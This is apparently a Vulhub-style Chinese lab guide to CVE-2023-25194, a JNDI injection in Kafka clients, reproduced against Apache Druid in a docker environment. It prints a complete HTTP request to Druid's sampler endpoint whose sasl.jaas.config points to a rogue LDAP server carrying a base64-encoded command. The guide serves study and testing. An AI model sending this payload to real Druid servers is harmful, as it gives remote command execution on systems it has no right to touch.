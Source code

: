 # Apache Kafka Clients LDAP注入漏洞 (CVE-2023-25194)

Apache Kafka是一个开源分布式消息队列，Kafka clients是相对应的Java客户端。

在版本3.4.0以前，Apache Kafka clients中存在一处JNDI注入漏洞。如果攻击者在连接的时候可以控制属性`sasl.jaas.config`的值为`com.sun.security.auth.module.JndiLoginModule`，则可以发起JNDI连接，进而导致JNDI注入漏洞，执行任意命令。

由于这个漏洞是存在于Java库kafka-clients中，所以我们需要在真实环境下找到使用了这个库的软件，且用户可以控制连接参数。

这个软件就是Apache Druid，其使用kafka-clients来连接Kafka作为其数据源之一。这篇指南就来演示如何利用CVE-2023-25194来攻击Apache Druid。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## 漏洞环境

执行如下命令启动一个Apache Druid 25.0.0服务，其内部使用的kafka-clients版本是3.3.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8888`即可查看到Apache Druid主页。

## 漏洞复现

首先，使用[JNDIExploit](https://github.com/vulhub/JNDIExploit)启动一个恶意的JNDI服务器：

![](1.png)

可见，这个工具给出了很多利用方法，我们使用`ldap://roguo-jndi-server:1389/Basic/Command/Base64/[base64_encoded_cmd]`，将命令`id > /tmp/success`编码后放在URL中。

将这个恶意LDAP URL放在下面这个请求中，并发送：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

进入容器后可见`id > /tmp/success`已经成功执行：

![](3.png)

